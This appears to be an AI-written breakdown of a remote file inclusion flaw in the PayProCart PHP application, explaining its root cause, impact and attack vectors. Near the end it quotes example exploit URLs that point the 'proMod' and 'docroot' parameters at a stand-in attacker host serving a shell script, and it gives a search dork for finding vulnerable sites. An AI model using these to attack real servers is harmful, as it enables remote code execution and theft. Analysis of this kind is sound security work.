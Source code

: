 Based on the provided content, here's the breakdown of the vulnerability:

**Root Cause:**
The vulnerability stems from the insecure inclusion of external files within the `index.php` and `mainpage.php` scripts of the PayProCart application. The application uses user-supplied parameters (`proMod` and `docroot`) to construct file paths which are then included using the `include` function, without proper sanitization.

**Weaknesses/Vulnerabilities:**
- **Remote File Inclusion (RFI):** The primary vulnerability is a Remote File Inclusion, where the application can be tricked into including files from an attacker-controlled remote server.
- **Lack of Input Validation:** The application fails to validate or sanitize the `proMod` and `docroot` parameters, allowing an attacker to inject arbitrary URLs.
- **Direct Use of User Input in Include Statements:** The application directly uses the attacker-provided URL within the `include` statement, leading to the vulnerability.

**Impact of Exploitation:**
- **Remote Code Execution (RCE):** Successful exploitation can lead to Remote Code Execution, where an attacker can execute arbitrary PHP code on the server. This enables a complete compromise of the affected application and the underlying server.
- **Data Breach:** An attacker can potentially gain access to sensitive data stored within the application or on the server.
- **Malware Distribution:** An attacker can inject malicious scripts into the application that can be served to end users.

**Attack Vectors:**
- **HTTP GET Parameter Manipulation:** The attacker manipulates the `proMod` and `docroot` parameters in the URL to point to a malicious remote file.
- **Direct Web Request:** The attacker makes a direct web request to the vulnerable scripts `index.php` and `mainpage.php` with the crafted malicious URL.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to have network access to the server hosting the vulnerable application.
- **Knowledge of Vulnerable Parameters:** The attacker needs to know which parameters are vulnerable (`proMod` and `docroot`).
- **Ability to host malicious file:** The attacker needs to host a malicious PHP file on a server accessible by the vulnerable application.

**Additional details from the exploit:**
- The application affected is `ppalCart 2.5 EE`.
- Google dork `\"powered by: profitCode\"` can be used to find potentially vulnerable instances.
- Vulnerable parameters are `proMod` in `index.php` and `docroot` in `mainpage.php`.
- Examples provided `http://[url]/index.php?proMod=http://shell.txt?` and `http://www.victom.com/mainpage.php?docroot=http://yourevil.com/r0x.txt?cmd`

This information is more detailed than a basic CVE description.